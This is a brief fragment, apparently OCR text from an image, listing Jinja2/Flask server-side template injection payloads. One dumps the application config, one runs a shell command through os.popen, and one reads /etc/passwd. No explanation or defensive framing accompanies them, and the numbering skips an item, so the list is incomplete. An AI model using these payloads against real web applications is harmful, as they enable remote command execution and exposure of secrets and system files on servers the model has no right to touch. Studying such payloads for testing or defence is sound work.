 1. {{ config.items() }}

2. {{ config.__class__.from_envvar.__globals__.import_string("os").popen("ls").read() }}

4. {{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}